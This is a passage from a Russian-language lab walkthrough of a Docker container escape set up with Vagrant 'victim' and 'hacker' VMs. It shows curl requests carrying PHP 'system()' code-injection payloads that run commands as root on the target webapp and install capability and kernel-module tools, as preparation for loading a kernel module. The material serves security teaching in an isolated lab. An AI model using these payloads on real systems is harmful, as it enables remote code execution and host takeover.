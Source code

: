 ```
$ vagrant ssh victim
vagrant@victim:~$ cd /vagrant/victim/
vagrant@victim:/vagrant/victim$ docker-compose up -d
```

Посмотрим от имени какого пользователя запущен процесс с pid 1 в запущенном контейнере:

```
vagrant@victim:/vagrant/victim$ docker-compose exec webapp bash
root@ef07105a20f9:/app# ls -l /proc/1          
  total 0
  dr-xr-xr-x 2 root root 0 Nov 26 17:14 attr
  ...
```

Владелец файлов в директории `/proc/<PID>` аналогичен владельцу самого процесса. Это способ определить владельца в
случае если `ps` не установлен.

## Exploitation

Так как при использовании docker ядро используеться из хостовой системы, то операции с ядром (например загрузка модуля)
выполняються сразу во всех контейнерах и хостовой системе.

Зайдём в VM `hacker`:

```
$ vagrant ssh hacker
```

Проверим от имени какого пользователя запущено web-приложение, для этого выполним команду `id`:

```
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('id');"
  <h1> Hello world!</h1>
  uid=0(root) gid=0(root) groups=0(root)
  <br>
```

Сообщение говорит нам о том, что процесс, в контексте которого мы выполняем наши команды, запущен от имени пользователя
root.

Проверим доступность команды `capsh`, которая позволит нам просмотреть доступные нам разрешения:

```
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('whereis capsh');"
  <h1> Hello world!</h1>
  capsh:
  <br>
```

Команда capsh не найдена. Установим ее:

```
vagrant@hacker:~$ curl -G 192.168.50.4 \
  --data-urlencode "code=system('apt-get update && apt-get install -y libcap2-bin kmod');"
...
```
